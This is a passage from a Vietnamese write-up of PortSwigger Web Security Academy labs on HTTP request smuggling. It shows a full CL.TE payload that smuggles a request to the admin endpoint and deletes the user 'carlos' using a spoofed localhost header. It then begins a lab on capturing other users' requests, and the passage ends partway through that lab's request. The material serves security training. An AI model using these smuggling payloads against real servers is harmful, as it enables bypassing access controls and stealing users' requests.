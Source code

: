 >Lấy đường dẫn xóa `carlos` và send request 2 lần:
```
POST / HTTP/1.1
Host: 0a44003f049511988075ad0d00dd0074.web-security-academy.net
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 153
Transfer-Encoding: chunked

0

POST /admin/delete?username=carlos HTTP/1.1
X-ixBfHN-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 500

search=


```
![image](https://hackmd.io/_uploads/BJMZwnmdR.png)

>Thành công xóa người dùng `carlos`, hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/ByfXDhQdR.png)

### **9. Lab: Exploiting HTTP request smuggling to capture other users' requests**
![image](https://hackmd.io/_uploads/ByJt62XdR.png)

>Bằng payload như lab 8, ta xác định được lab này thuộc dạng `CL.TE`:
>![image](https://hackmd.io/_uploads/rk4GypXdC.png)

>Trang web có chức năng comment, thử comment hợp lệ:
>![image](https://hackmd.io/_uploads/HJFUJ6QuR.png)
>![image](https://hackmd.io/_uploads/BkDc1pmuR.png)

>Ta sẽ sử dụng HTTP request smuggling tại tham số `comment`. Setup giá trị `comment` rỗng:
```
POST / HTTP/1.1
Host: 0ab7008f042ed2da85068a15001f006e.web-security-academy.net
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
```